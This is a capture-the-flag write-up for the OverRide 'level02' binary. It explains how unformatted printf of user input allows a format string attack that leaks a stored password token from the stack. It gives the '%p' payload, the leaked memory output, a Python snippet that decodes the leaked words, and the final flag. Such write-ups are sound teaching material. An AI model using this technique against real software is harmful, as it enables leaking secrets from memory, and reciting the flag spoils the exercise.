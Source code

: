 # Level02 format string attack

## Overview

In this level, we are dealing with a binary that checks a password. The challenge involves bypassing the password check by exploiting a **format string vulnerability**. Below, we break down the main components of the binary's behavior and the exploit strategy.

## Steps

### input
We identified a call to `fgets` in the main function:
```
<main+453> callq  0x4006f0 <fgets@plt>
```
This call suggests that the program reads input from the user.

### Password Comparison
The program compares two strings using `strncmp`:
```c
if (strncmp(ptr, s2, 0x29uLL)) {
    printf(s);
    puts(" does not have access!");
    exit(1);
}
```
It compares the flag we should get and our input. It seems impossible to get it.

### Format String Exploit
They use our input as `printf(s);` argument without formst string. This allows us to perform a **format string attack**.

```c
v9 = fread(ptr, 1uLL, 0x29uLL, stream);
```
We can check they save the token in a variable, `ptr`.

We read the token directly from the stack by printing the stack memory repeatedly.

## Payload
```
level02@OverRide:~$ python -c 'print"%p "*30' > /tmp/02
level02@OverRide:~$ cat /tmp/02 | ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
0x7fffffffe4a0 (nil) (nil) 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe698 0x1f7ff9a08 (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) 0x100000000 (nil) 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d (nil) 0x7025207025207025 0x2520702520702520 0x2070252070252070  does not have access!
```

We can find 
```
0x756e505234376848
0x45414a3561733951
0x377a7143574e6758
0x354a35686e475873
0x48336750664b394d
```
and convert them to flag
```python
print(
  "\x75\x6e\x50\x52\x34\x37\x68\x48"[::-1] +
  "\x45\x41\x4a\x35\x61\x73\x39\x51"[::-1] +
  "\x37\x7a\x71\x43\x57\x4e\x67\x58"[::-1] +
  "\x35\x4a\x35\x68\x6e\x47\x58\x73"[::-1] +
  "\x48\x33\x67\x50\x66\x4b\x39\x4d"[::-1]
)
```

## Flag
```
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```